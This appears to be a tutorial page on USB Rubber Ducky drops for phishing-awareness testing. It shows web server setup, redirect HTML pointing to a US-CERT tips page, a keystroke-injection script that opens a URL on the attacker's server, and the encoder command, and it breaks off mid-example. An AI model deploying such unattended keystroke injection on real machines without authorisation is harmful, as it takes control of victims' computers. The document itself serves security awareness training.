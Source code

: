 *Rubber Ducky Script*  

User plugs in the Rubber Ducky, it executes some commands on their machine (without user interaction), it goes to the target web server and then forwards the user to the US Cert for a teachable moment. You can replace the US Cert website with your company policy or wherever you want the target to land.  

How it works  

Cross-platform USB Rubber Ducky payload works against Windows, Mac, and some Linux window managers which support URL's from the ALT-F2 menu (like Ubuntu). Attempts to connect to the attacker’s webserver without user interaction, the website is loaded with content that redirects the user to the US Cert to help education the user.  
- Pros
  - User only needs to plug the device in
  - Forwards a user to a site for an immediate teachable moment (can set a custom landing page)
  - Works on many OS's
- Cons
  - More expensive than standard USB's
  
How to do it  

Preparing Web Server  

- Start web server  
  - `service apache2 start`  
- Create HTML file you want the user directed to  
  - `touch /var/www/html/rubber_ducky.html`  

**Side-Note:** If you're dropping more than one rubber ducky, an easy way to tell which ducky was plugged in is to point them to separate HTML files and see which is accessed. Example lime_green.html, hallway.html
{: .notice--info}  

- Save the following code within the HTML file (change URL's to where you want to redirect to)

```
<html><head><meta charset="UTF-8" />
<meta http-equiv="refresh" content="1;url=https://www.us-cert.gov/ncas/tips/ST08-001" />
<script type="text/javascript">window.location.href = "https://www.us-cert.gov/ncas/tips/ST08-001"</script>
<title>Page Redirection</title></head>
<body>If you are not redirected automatically, follow the <a href="https://www.us-cert.gov/ncas/tips/ST08-001">link</a>.</body></html>
```  

Preparing the payload  

- [Download the encoder](https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/duckencoder.jar)  
- Insert the micro USB card into your computer
- Place the following payload into a text file (example rubberducky.txt). Be sure to change the IP and html file!
```
DELAY 1000
ALT F2
DELAY 50
GUI SPACE
DELAY 50
GUI r
DELAY 50
BACKSPACE
DELAY 100
STRING http://<ATTACKING_IP>/<FILE_CONTAINING_REDIRECT>.HTML
ENTER
```  
- Compile the ducky script into an inject.bin file
  - `java -jar duckencoder.jar -i <TXT_FILE> -o /Volumes/NO\ NAME/inject.bin`  
  - Example:  